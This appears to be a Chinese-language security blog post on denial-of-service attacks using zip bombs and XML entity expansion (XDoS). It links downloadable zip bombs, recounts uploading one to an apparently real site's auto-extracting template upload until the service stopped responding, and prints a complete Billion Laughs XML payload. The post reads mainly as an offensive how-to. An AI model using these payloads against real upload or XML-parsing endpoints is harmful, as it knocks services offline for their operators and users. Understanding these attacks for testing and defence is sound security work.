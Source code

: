 
### Zip炸弹

不知道各位有没有听说过Zip炸弹，一个42KB的压缩文件(Zip)，解压完其实是个`4.5PB`的“炸弹”。

先不说`4.5PB`这个惊人的大小，光解压都会占用极大的内存。

该文件的下载地址：https://www.bamsoftware.com/hacks/zipbomb/42.zip

![-w447](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-06-22/15911070729869.jpg)

> 解压这个`42.zip`以后会出现`16`个压缩包，每个压缩包又包含`16`个，如此循环`5`次，最后得到`16`的`5`次方个文件，也就是`1048576`个文件，这一百多万个最终文件，每个大小为`4.3GB`。
> 因此整个解压过程结束以后，会得到 `1048576 * 4.6 GB = 4508876.8 GB`，也就是 `4508876.8 ÷ 1024 ÷ 1024 = 4.5 PB`。

通过以上说明，我们可以寻找存在解压功能的Web场景进行拒绝服务攻击，但是这里有一个前置条件就是需要解压并可以递归解压。

那我们想要完成这一攻击就非常的困难了，“前辈”也提到了非递归的Zip炸弹，也就是没有嵌套Zip文件文件的，如下表格：

| 名称 | 解压结果 |
| --- | --- |
| [zbsm.zip](https://www.bamsoftware.com/hacks/zipbomb/zbsm.zip) | 42 kB 	→ 	5.5 GB |
| [zblg.zip](https://www.bamsoftware.com/hacks/zipbomb/zblg.zip) | 10 MB 	→ 	281 TB |
| [zbxl.zip](https://www.bamsoftware.com/hacks/zipbomb/zbxl.zip) | 46 MB 	→ 	4.5 PB (Zip64, less compatible) |

存在解压功能的Web场景还是比较多的，可以根据实际业务场景进行寻找。

#### 实际场景

根据实际业务场景发现一处上传模板文件功能，根据简单的测试，发现此处上传Zip文件会自动解压：

![-w176](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-06-22/15911064054609.jpg)

![-w400](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-06-22/15911081629641.jpg)

这里我选择上传`zbsm.zip`上去，看一下服务器反应:

![-w171](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-06-22/15911091742556.jpg)

这里整个服务的请求都没有返回结果，成功造成拒绝服务。

### XDoS(XML拒绝服务攻击)

XDoS，XML拒绝服务攻击，其就是利用DTD产生XML炸弹，当服务端去解析XML文档时，会迅速占用大量内存去解析，下面我们来看几个XML文档的例子。

#### Billion Laughs

据说这被称为**十亿大笑DoS攻击**，其文件内容为：

```xml
<!DOCTYPE keyz [
  <!ENTITY key "key">
  <!ENTITY key2 "&key;&key;&key;&key;&key;&key;&key;&key;&key;&key;">
  <!ENTITY key3 "&key2;&key2;&key2;&key2;&key2;&key2;&key2;&key2;&key2;&key2;">
  <!ENTITY key4 "&key3;&key3;&key3;&key3;&key3;&key3;&key3;&key3;&key3;&key3;">
  <!ENTITY key5 "&key4;&key4;&key4;&key4;&key4;&key4;&key4;&key4;&key4;&key4;">
  <!ENTITY key6 "&key5;&key5;&key5;&key5;&key5;&key5;&key5;&key5;&key5;&key5;">
  <!ENTITY key7 "&key6;&key6;&key6;&key6;&key6;&key6;&key6;&key6;&key6;&key6;">
  <!ENTITY key8 "&key7;&key7;&key7;&key7;&key7;&key7;&key7;&key7;&key7;&key7;">
  <!ENTITY key9 "&key8;&key8;&key8;&key8;&key8;&key8;&key8;&key8;&key8;&key8;">
]>
<keyz>&key9;</keyz>
```
